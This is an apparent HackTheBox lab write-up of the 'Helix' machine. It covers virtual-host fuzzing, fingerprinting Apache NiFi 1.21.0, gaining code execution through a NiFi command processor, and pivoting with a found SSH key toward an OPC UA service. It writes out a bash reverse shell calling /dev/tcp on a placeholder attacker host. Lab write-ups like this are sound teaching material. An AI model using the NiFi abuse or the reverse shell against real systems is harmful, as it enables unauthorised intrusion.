








<div align="center">

# 🎯 Helix — HackTheBox Penetration Test


**Target:** Helix (HackTheBox) · Linux · Black-box · Apache NiFi RCE → user access

</div>

---

## Summary

Helix hides its real attack surface behind virtual-host routing — the machine looks empty until the right `Host` header reveals an **Apache NiFi** instance, which NiFi's own workflow engine turns into remote code execution. From there, a discovered SSH key led to user-level access and a set of files pointing toward an industrial **OPC UA** service as the next target.

> **Status:** user-level access and initial privilege-escalation research documented below; this write-up reflects the engagement as recorded and does not include a confirmed root.

---

## Attack Chain

**1. Recon** — an Nmap scan (plus a full vulnerability-script sweep) found just two open ports:



- `22/tcp` — SSH
- `80/tcp` — HTTP, redirecting to `helix.htb` (added to `/etc/hosts` to resolve it)

The site itself turned out to be a dead end — no content, and directory fuzzing on it found nothing.

**2. Virtual-host discovery** — with the main site empty, fuzzed for hidden virtual hosts instead:

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://<target-ip> -H "Host: FUZZ.helix.htb" -c
```



One entry stood out from the rest — `flow`, the only vhost returning a real `200 OK` instead of a generic redirect:



**3. Fingerprinting `flow.helix.htb`** — querying the app's own API endpoint confirmed it was running **Apache NiFi 1.21.0**:



**4. Exploiting NiFi for RCE** — NiFi lets a logged-in user build data-processing pipelines out of "processors." One built-in processor type runs an arbitrary OS command by design:



Configured it to spawn a reverse shell:

```
Command:            bash
Command Arguments:  -c "bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1"
```



Running the processor called back to a listener — shell access as the `nifi` service user.

**5. Pivoting to `operator`** — enumeration from the `nifi` shell turned up an encrypted credential. Rather than spending more time cracking it, further searching located a private SSH key directly. That key authenticated as user `operator` over SSH — and the user flag was sitting right there:



**6. Moving toward the next stage** — from `operator`, `scp`'d down two files: a diagram and a PDF. The PDF referenced a service running in **"maintenance mode"** — required to continue — and pointed at an **OPC UA** server (a protocol used in industrial control systems). Downloaded a graphical OPC UA client to begin interacting with it:



The engagement was recorded up to this point: user access confirmed, with the OPC UA maintenance-mode service identified as the likely path toward further escalation.

---

## Tools Used

`Nmap` · `ffuf` · `Apache NiFi` (as an attack surface) · `SSH`/`SCP` · OPC UA client tooling

## Skills Demonstrated

- Discovering hidden attack surface via virtual-host fuzzing rather than trusting the default site
- Recognizing and abusing a legitimate application feature (NiFi's processor engine) for RCE
- Pragmatic credential handling — knowing when to stop cracking and keep enumerating instead
- Following a multi-stage lead (a PDF referencing a separate industrial protocol service) to scope out the next attack phase
